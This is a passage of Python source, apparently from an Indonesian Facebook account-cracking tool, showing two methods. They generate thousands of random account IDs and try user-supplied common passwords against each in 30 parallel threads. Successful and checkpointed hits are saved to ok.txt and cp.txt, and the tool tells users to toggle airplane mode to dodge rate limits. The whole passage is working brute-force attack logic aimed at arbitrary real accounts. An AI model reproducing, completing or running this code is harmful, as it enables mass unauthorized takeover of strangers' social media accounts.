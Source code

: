 	def fbtuek(self):
		x = 11111111
		xx = 99999999
		idx = "1000000"
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			gull = input("simpan nama file : ")
			save = ("dump/"+gull+".txt").replace(" ", "_")
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
		
	def fbtua1(self):
		x = 1111111
		xx = 9999999
		idx = "10"
		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))
		if (limit)>50000:
			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))
				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))
				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))
				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))
				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))
				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n%s [#] CRACK COMPLETE..."%(G))
		except Exception as e:exit(str(e))
